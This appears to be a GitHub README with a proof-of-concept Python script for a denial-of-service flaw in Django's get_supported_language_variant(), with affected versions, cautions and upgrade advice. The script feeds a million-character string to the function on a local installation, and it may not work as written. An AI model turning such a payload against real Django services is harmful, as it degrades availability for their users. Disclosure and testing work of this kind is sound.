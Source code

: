 # Proof of Concept (PoC) for Denial-of-Service Vulnerability in Django

This repository contains a Proof of Concept (PoC) script demonstrating a denial-of-service (DoS) vulnerability in Django versions 5.0 before 5.0.7 and 4.2 before 4.2.14. The vulnerability lies in the `get_supported_language_variant()` function, which is susceptible to a potential DoS attack when handling very long strings containing specific characters.

## Table of Contents

- [Vulnerability Description](#vulnerability-description)
- [Setup and Usage](#setup-and-usage)
  - [PoC Script](#poc-script)
- [Important Considerations](#important-considerations)
- [Mitigation](#mitigation)

## Vulnerability Description

**CVE-ID**: (Pending)

**Overview**: 
The `get_supported_language_variant()` function in Django versions 5.0 before 5.0.7 and 4.2 before 4.2.14 is vulnerable to a denial-of-service attack. This function can be exploited by sending very long strings containing specific characters, which could lead to a resource exhaustion and consequently, a denial-of-service condition.

**Affected Versions**: 
- Django 5.0 before 5.0.7
- Django 4.2 before 4.2.14

**Fixed Versions**: 
- Django 5.0.7
- Django 4.2.14

## Setup and Usage

### Prerequisites

- Python 3.x
- Django installed (`pip install django`)

### PoC Script

This script demonstrates how an attacker can exploit the vulnerability by sending a very long string to the `get_supported_language_variant()` function.

Save the following script as `dos_poc.py` and run it.

```python
import django
from django.utils.translation import get_supported_language_variant

# Check Django version
if django.VERSION < (4, 2, 14) or (5, 0) <= django.VERSION < (5, 0, 7):
    print("[-] This Django version is vulnerable to the DoS attack.")
else:
    print("[+] This Django version is not vulnerable. Please use a vulnerable version for testing.")

# Generate a very long string containing specific characters
very_long_string = 'a' * 1000000 + '!'  # Adjust the length and content as necessary

def test_dos_vulnerability():
    try:
        # Trigger the vulnerability
        get_supported_language_variant(very_long_string)
        print("[+] Successfully called get_supported_language_variant with a very long string.")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    test_dos_vulnerability()
```

### Explanation

1. **Check Django Version**: The script first checks if the installed Django version is vulnerable to the DoS attack.
2. **Generate a Very Long String**: A very long string containing specific characters is generated. Adjust the length and content as necessary to trigger the vulnerability.
3. **Test Function**: The `test_dos_vulnerability()` function calls `get_supported_language_variant()` with the very long string to test for the vulnerability.
4. **Run the Script**: When executed, the script will attempt to exploit the vulnerability and print the results.

## Important Considerations

- **Permissions**: Ensure you have explicit permission to test this vulnerability on the target system. Unauthorized testing is illegal and unethical.
- **Testing Environment**: Perform this test in a controlled environment to avoid impacting production systems.
- **Resource Consumption**: This PoC can consume significant system resources. Monitor your system and be prepared to stop the script if necessary.

## Mitigation

To mitigate this vulnerability, upgrade to the fixed versions of Django:

- **Django 5.0.7**
- **Django 4.2.14**

Follow the official [Django upgrade instructions](https://docs.djangoproject.com/en/stable/howto/upgrade-version/) to update your Django installation to the latest secure version.

By keeping your software up-to-date and following security best practices, you can prevent vulnerabilities such as this DoS issue in Django.